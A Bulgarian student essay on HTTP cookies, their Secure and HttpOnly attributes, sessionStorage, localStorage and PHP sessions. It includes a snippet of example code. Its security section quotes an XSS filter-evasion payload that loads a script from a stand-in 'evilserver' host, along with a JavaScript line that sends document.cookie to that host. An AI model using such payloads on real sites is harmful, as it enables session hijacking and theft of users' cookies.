



Въведение
HTTP бисквитка (web бисквитка, browser бисквитка) е малко парче информация, която се изпраща от сървъра към браузъра на потребителя. Съответно браузъра може да я съхрани и да я изпрати отново обратно при по-нататъчни заявки към същия сървър. Обикновено се използва като аутентиакационен метод: да потвърди дали две различни заявки идват от един и същ browser — например да покаже че е логнат юзър. Бисквитките пазят stateful информация за stateless HTTP протокола [1].
Бисквитките се използват главно с няколко цели:
-
Session management
Logins, shopping carts, game scores, и като цяло всичко, което трябва да се запомни от сървъра -
Персонализация(предлагане на релевантни реклами)
Потребителски преференции, теми и други настройки -
Проследяване(на заявки)
Записване и анализиране на потребителското поведение
Преди бисквитките са използвани за общо съхранение на данни от client страната. Въпреки че тази техника е била масово използвана преди, това просто е било единствения начин за съхраняване на данни в клиентската част. Бисквитките се изпращат с всяка заявка и влошават перформанса (особено за мобилни конекции). За това, за повечето неща се ползват модерни storage API-та. Главно това са WebStorage API-то с LocalStorage и SessionStorage както и IndexedDB. Следва да разгледаме в детайл бисквитките, localStorage и sessionStorage.
Бисквитки
Както казахме сами по себе си, бисквитките съхраняват информация. Ако отворим developer's tools във всеки един браузър, може да проследим какви бисквитки сайтовете които посещаваме са закачили за клиента ни. Бисквитките са key-value двойки, при достъпването им от сървъра, като имат определени свойства определящи поведението им в браузъра.
Там се виждат всички бисквитки, тяхното име и стойност, с какъв домейн се асоциират, при достъпването на кои пътища се препращат, кога изтичат и биват зачистени, техния размер в bytes, дали са HttpOnly, дали са secure, дали идват от същия сайт от който се пращат идните заявки и какъв им е приоритетът.
Създаване
За начало, за да се обясни механизма на работа на бисквитките, нека обърнем внимание първо на
структурата
на
една HTTP заявка.

На първия ред който се изпраща е адреса на заявения ресурс, и метода (GET, POST, PUT, DELETE) - дали ще извличаме или ще пращаме да се записва/изтрива информация на сървъра. Следват request headers, там се съхранява информация като хост-а към който се изпраща, какъв формат данни се изискват (images, json, etc.), определена оторизация и, най важното за този реферат - бисквитките. В тялото на заявката вече са съответните данни които се пращат (само при PUT и POST).
След като получи HTTP заявка, сървърът може да прати един или повече Set-Cookie хедъри с response-a. Бисквитката обикновено се запазва от браузъра и после се изпраща с последвалите заявки към сървъра от същия клиент вътре в Cookie HTTP header-a. Може да бъде зададен срок след който съответната бисквитка вече не се изпраща.
Set-Cookie HTTP response header-a изпраща бисквитки от сървъра към клиента. Сетването в header-a
изглежда
така:
Set-Cookie: <cookie-name>=<cookie-value>=<cookie-value>
За да се зададе живота на бисквитката се добавят Expires атрибута или Max-Age атрибута:
Set-Cookie: id=a3fWa; Expires=Thu, 31 Oct 2021 07:28:00 GMT;
Цялостно хедърите на респонс биха изглеждали така:
HTTP/2.0 200 OK
Content-Type: text/html
Set-Cookie: sum_cookie=userDataLikeHisName
Set-Cookie: another_cookie=authenticationJWTToken
[page content]
Съответно при всяка следваща заявка браузъра праща в заявките тези бисквитки така:
GET /sample_page.html HTTP/2.0
Host: www.example.org
Cookie: sum_cookie=userDataLikeHisName; another_cookie=authenticationJWTToken
Като всички бисквитки се нашиват в Cookie хедъра разделени от ";". Важно е да се отбележи, че когато се сетне Expires, часът и датата са в съответствие с тези на клиента, на когото се сетват, а не със сървъра. Ако сайтът аутентикира потребители, трябва да регенрира и преизпраща session бисквитките (изтичащи след края на сесията, след затваряне на браузъра), дори и тези, които вече съществуват, всеки път когато потребителя се аутентикира. Тази техника предотвратява session fixation атаки, когато трета страна може да преизоползва потребителската сесия.
Сигурност
Ограничаването на достъпа до бисквитките за да не се достъпят от други страни или скриптовете се постига по 2 начина. Secure атрибута и HttpOnly атрибута. Бисквитка със Secure атрибута се изпраща до сървъра само с криптирана заяква през HTTPS протокол, никога с HTTP и за това не може да бъде достъпена чрез man in the middle атаки (когато някой прихване заявката, вземе данните от нея и съответно данните за потребителя и ги преизползва за конструиране на друга зловредна заявка).
Въпреки това, дори и със Secure атрибута, бисквитката може да бъде прочетена и променена от някой с достъп до хард диска на клиента (или с javascript code ако HttpOnly не е сетнато). Бисквитките могат да бъдат извлечени, когато зловреден скрипт бъде инжектиран при заявка от потребителя. Обикновено, всички данни които биват получени първо се прекарват през HTML парсър и зловреден код може лесно да бъде трансформиран и обезвреден автоматично от:
<script>alert('hello XSS!');</script>
до
& lt;script& gt;alert('hello XSS!');& lt;/script& gt;
Въпреки това зловреден скрипт може да бъде умело скрит:
<img src=""http://www.a.com/a.jpg <script type=text/javascript
src="http://1.2.3.4:evilserver/xss.js">" /><<img
src=""http://www.a.com/a.jpg</script>"
Чрез хитро конструиране URL-а успява да премине през филтъра. Крайният рендърнат код, гледан от браузъра зарежда и изпълнява скрипт от там до remote server изглеждащ така:
window.location="http://1.2.3.4:evilserver/r.php?u="
+document.links[1].text
+"&l="+document.links[1]
+"&c="+document.cookie;
Който зареди този инжектиран със скрипт линк, без да иска изпраща всичките си бисквитки до зъл хакерски сървър. [5]

Това може лесно да бъде приложено и на сайта на който в момента четете този реферат. При създаването на потребител, ако сте отворили и видели заявката си, бихте могли да забележите, че паролата се изпраща в не криптиран вид към сървъра. Бисквитката за id-to е HttpOnly, но не е Secure. Бисквитка с HttpOnly атрибута е недостъпна за javascript Document.cookie Апи-то. Праща се единствено до сървъра. Този тип бисквитки е оспоримо все още много добър начин за съхранение на auth token-а на потребителя, съдържащ неговата информация (съответно криптиран с JWT [4] или друг подобен начин).
Set-Cookie: userId=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9
.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG
9lIiwiaWF0IjoxNTE2MjM5MDIyfQ
.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c; Expires=Thu, 21 Oct 2021 07:28:00 GMT;
Secure; HttpOnly
Във връзка с това, JSON web tokens, са отличен начин за работа с user data, хешират данните и ги връщат във формат който може да бъде разпознат от сървъра ако той има съответстващата тайна за хеширане на данните. Повече за тях може да се види в документацията им.[4]
Domain, Path и Same site атрибутите
Domain атрибута определя кои хостове могат да получават тези бисквитки. Ако не е
зададен,
домейна по дефолт е същия хост, който е сетнал бисквитката, изключвайки под-домейни. Ако домейна е
специфициран, тогава под-домейните му са винаги включени. Така, задаването на домейн е по-малко стриктен
от
пропускането му. Може да бъде полезно, когато под-домейни ще си споделят информация за потребители.
Например, ако Domain=mozilla.org е сетнато, тогава бисквитките са достъпни и
за под-домейни
като
developer.mozilla.org.
Path атрибута индикира, че задаения URL път в атрибута, трябва да същестува в заявения
URL.
%x2F("/")
символа се счита за разделител на директории и поддиректориите могат да съвпаднат също.
Например, ако е сетнато Path=/docs, то тези пътища ще са валидни за заявката
/docs
/docs/Web/
/docs/Web/HTTP
Cookies demo
Следното кратко демо, демонстрира работа с бисквитки на клиентската част. Въведени са три примерни бисквитки които се сетват всеки път, когато се зареди страницата и скрипта към нея. Можете да въведете ключ и стойност и да сетнете нови бисквитки. Резултата е видим както в таблицата така и ако отворите във вашия браузър Developer Tools (ако сте с Chrome/Opera/Mozilla последователността е подобна на описаната тук), като изберете десен бутон -> инспектиране -> application -> cookies -> refresh на cookies. Съответно можете и да ги махнете през Х. За демото не е използвано вграденото апи, а библиотеката Cookie.js, която дава по-лесен достъп и обработка на бисквитките. [2]
| Cookie name | Cookie value | Expires | Clear (from bottom to top) |
|---|
Законови регулации
Има 3 главни законови регулации покриващи бисквитките:
- The General Data Privacy Regulation (GDPR) in the European Union
- The ePrivacy Directive in the EU
- The California Consumer Privacy Act
Друг начин за съхранение на данни в браузъра е Web Storage API-то. window.sessionStorage и window.localStorage пропъртитата съответстват на бисквитки изтичащи със сесията и перманентни такива, но storage-ите имат по-големи ограничения за размера на данни и никога не се изпращат към сървъра. По-структурирани и големи данни, могат да се съхраняват с помощта на IndexedDB API-то, което не е обект на този реферат (ето все пак повече инфо) Създадени са и техники за пресъздаване на изтекли и изтрити бисквитки, наречени Зомби бисквитки 🧟, но те са силно нелегални.
Session storage
Read-only свойството sessionStorage достъпва съхраняващ(storage) сесията обект за текущия източник. Session storage се зачиства, когато сесията на страницата приключи. Капацитетът му е 5mb.
- Когато документ е зареден в определен tab в браузъра, уникална сесия се създава и поставя на таб-а, като е валидна само за него.
- Сесията трае докато прозореца е отворен, и продължава да съществува при рефрешване и релоудване.
- Отварянето на страница в нов прозорец, създава нова сесия със стойностите на общия браузърен контекст,което различно от това как работят бисквитките.
- Отварянето на много прозорци сочещи към същия URL създава уникални sessionStorages за всеки от тях.
- Дуплицирането на таб, копира в копието sessionStorage-a на оригинала.
- Затварянето на таб приключва сесията и зачиства всичко в sessionStorage-a.
Синтаксис
myStorage = window.sessionStorage;
Примери за употреба
// Save data to sessionStorage, similiar code is used for the demo
sessionStorage.setItem('key', 'value');
// Get saved data from sessionStorage
let data = sessionStorage.getItem('key');
// Remove saved data from sessionStorage
sessionStorage.removeItem('key');
// Remove all saved data from sessionStorage
sessionStorage.clear();
Взимане на текстово поле и записване на стойността му в sessionStorage, ако още го няма
// Get the text field that we're going to track
let field = document.getElementById("field");
// See if we have an autosave value
// (this will only happen if the page is accidentally refreshed)
if (sessionStorage.getItem("autosave")) {
// Restore the contents of the text field
field.value = sessionStorage.getItem("autosave");
}
// Listen for changes in the text field
field.addEventListener("change", function() {
// And save the results into the session storage object
sessionStorage.setItem("autosave", field.value);
});
SessionStorage демо
Последващата таблица е подобна на тази с бисквитките, но този път за да видите случващото се в браузъра отидете на dev tools -> application -> sessionStorage
| sessionStorage key | value | Expires | Clear |
|---|
Local storage
Local storage read-only пропъртито позволява достъп до обект за съхранение за произхода на документа; съхранените данни се запазват след край на сесиите на браузъра. Капацитетът му е 10mb. localStorage е подобен на sessionStorage, с изключение на това, че докато localStorage данните нямат време на изтичане, данните sessionStorage се изчистват, когато сесията на страницата приключи - т.е. (localStorage данните за документа, заредени в сесия „private browsing“ или „инкогнито“, се изчистват, когато последният private раздел е затворен.)
Синтаксис
myStorage = window.localStorage;
Отново нещата се съхраняват в Storage object и се достъпват от там.
Формата на съхранение отново UTF-16 като в sessionStorage. Важи и същото разделение на HTTP и HTTPS протоколни storage-и. За документи, заредени от файл: URL адреси (т.е. файлове, отворени в браузъра директно от локалната файлова система на потребителя, вместо да се обслужват от уеб сървър), изискванията за поведение localStorage са недефинирани и могат да варират при различните браузъри. Във всички текущи браузъри localStorage изглежда връща различен обект за всеки файл, различен URL. С други думи, за всеки файл: URL има свой отделен уникалeн local storage. Но няма гаранции за това поведение, така че не трябва да се разчита на него, тъй като, както бе споменато по-горе, изискванията за файл: URL адреси остават недефинирани. Така че е възможно браузърите да могат да променят файла си: обработка на URL адреси за localStorage по всяко време. Всъщност някои браузъри са променили справянето си си с него с течение на времето
Примери за употреба
// Save data to localStorage
localStorage.setItem('myCat', 'Tom');
//read data from localStorage
const cat = localStorage.getItem('myCat');
//remove data from localStorage
localStorage.removeItem('myCat');
//remove all data from localStorage
localStorage.clear();
LocalStorage демо
Последващата таблица е подобна на тази с бисквитките, но този път за да видите случващото се в браузъра отидете на dev tools -> application -> localStorage. Тук в колонката за expiration, е сетнато на never, понеже стойностите записани там биват зачистени, когато някой ги премахне ръчно (или при съответно премахване/деинсталиране на браузъра).
| localStorage key name | localStorage key value | Expires | Clear |
|---|
За сесиите съхранявани на страната на сървъра
Докато localStorage и sessionStorage се съхраняват на клиентската част, в други езици за уеб
програмиране като php, сесията се започва, съхранява и управлява на съврърната част. За този метод на
работа в този реферат само ще се спомене, като принципът (като изключим, че е на сървърната част, а не
на клиентската) е същия. В нея отново се
съхраняват ключ-стойност двойки, които могат да се достъпват от много php страници. Session
променливите,
както в sessionStorage, се запазват докато потребителя затвори таб-а си със съответния сайт. Сесиите се
започват с php метода session_start(), който по правило се вика преди
рендерирането на какъвто и да е html. Достъпването на сесийните променливи се случва с викането на
елементите от масив по име(ключ). Сесиите се приключват с php метода session_destroy()
//setting an item for favourite color
$_SESSION["favcolor"] = "green";
//accessing the previously set color
echo "Favorite color is " . $_SESSION["favcolor"] . ".< br>";
// remove all session variables
session_unset();
// destroy the session
session_destroy();
Заключение
В продължение на много години бисквитките са били единствения начин за съхранение на информация в stateless протоколи. С течение на времето са претърпели подобрения и адаптации с цел да се повиши сигурността. Все още са един от главните методи за аутентикация на потребители (наред с облачни API-та като Firebase и други). Session storage и Local storage се появяват по-късно, и носят със себе си удобно боравене с информация нужна за потребителя без излагане на рискове. Трите заедно - HTTP бисквитките и Web_Storage_API компонентите предоставят всичко нужно за един функционален фронт-енд на сайт.